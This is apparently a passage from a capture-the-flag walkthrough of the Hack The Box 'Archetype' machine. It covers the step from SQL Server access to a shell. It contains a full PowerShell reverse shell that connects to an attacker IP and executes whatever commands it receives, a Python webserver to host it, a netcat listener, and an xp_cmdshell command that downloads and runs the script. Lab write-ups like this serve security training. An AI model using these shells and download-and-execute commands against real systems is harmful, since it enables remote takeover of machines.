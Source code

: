 The whoami command output reveals that the SQL Server is also running in the context of the user **ARCHETYPE\sql_svc**. However, this account doesn't seem to have administrative privileges on the host. Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as **shell.ps1**.

```script
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.16",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "# ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()

```
Next, let’s start up a mini webserver in python in order to host the file. We can use the following Python command:

``` shell
kali@kali: ~/HTB/StartingPoint/Archtype $ sudo python3 –m http.server 80
[sudo] password for kali:
Serving  HTTP  on  0.0.0.0  port  80  (http://0.0.0.0:80)  …
```


Here we can use:

·         netcat (a feature-packed networking utility) to reads and writes data across the network.
·         ufw (Uncomplicated FireWall) to allow incoming connections from a specific IP. 

 After standing up a netcat listener on port 443, we can use ufw to allow the callbacks on port 80 and 443 to our machine:

·         nc -lvnp 443
·         ufw allow from 10.10.10.27 proto tcp to any port 80,443

``` shell
kali@kali: ~/HTB/StartingPoint/Archtype $ sudo  nc –lvpn 4433
listening  on  [any]  443  …

sudo  ufw  allow  from  10.10.10.27 proto  tcp  to  any  port  80,443
```


We can now issue the command to download and execute the reverse shell 
through xp\_cmdshell . (10.10.14.16 attacking machine)
``` code 
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.16/shell.ps1\");"
```


We can see from our mini webserver that a file has been downloaded

<div style="width:100%; background-color:#252b34"><img src="StartingPoint_4.png"></div>
